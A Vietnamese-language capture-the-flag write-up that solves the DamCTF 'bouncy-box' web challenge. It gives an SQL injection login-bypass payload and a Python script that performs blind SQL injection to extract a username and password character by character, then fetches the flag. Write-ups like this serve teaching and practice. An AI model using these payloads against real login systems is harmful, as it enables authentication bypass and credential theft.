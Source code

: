 ![Image](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/1.png)
</br>
form đăng nhập thứ nhất
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/2.png)
Ở form đăng nhập này bị lỗi SQL injection, với payload `trung' or '1'='1'-- -`  nhập vào ô username, tôi dễ dàng vượt qua cơ chế xác thực và xuất hiện nút button `Free flag`
khi ấn vào thì xuất hiện form đăng nhập thứ hai, có vẻ form này không bị lỗi SQL injection, tôi sẽ lợi dụng form đăng nhập thứ nhất để dò tìm username password để đăng nhập
vào form đăng nhập thứ 2
![Img](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/3.png)
</br>

cách giải của tôi
```import requests, string
s = requests.session()

url = 'https://bouncy-box.chals.damctf.xyz/login'

arr = ',' + string.printable

def blind_row(column,step):
    for char in arr:
        res = s.post(url,json={"username":f"admin' or ascii(substr((select {column} from users limit 1),{step},1))={ord(char)}-- -",
        "password":"admin","score":0}).status_code
        if res==200:
            return char
    return None
 
def rows(column):
    row = ''
    step = len(row) +1
    while True:
        char = blind_row(column,step)
        if char == None:
            return row
        row += char
        step += 1
        print('[+] %s = '%column,row)  

username = rows('username')
password = rows('password')

flag = s.post('https://bouncy-box.chals.damctf.xyz/flag',data={'username_input':username,'password_input':password}).text
print(flag)
# dam{b0uNCE_B0UNcE_b0uncE_B0uNCY_B0unce_b0Unce_b0Unc3}
```
[source đầy đủ ở đây](https://github.com/magnetohvcs/ctf/blob/main/damctf/image/web1.py)
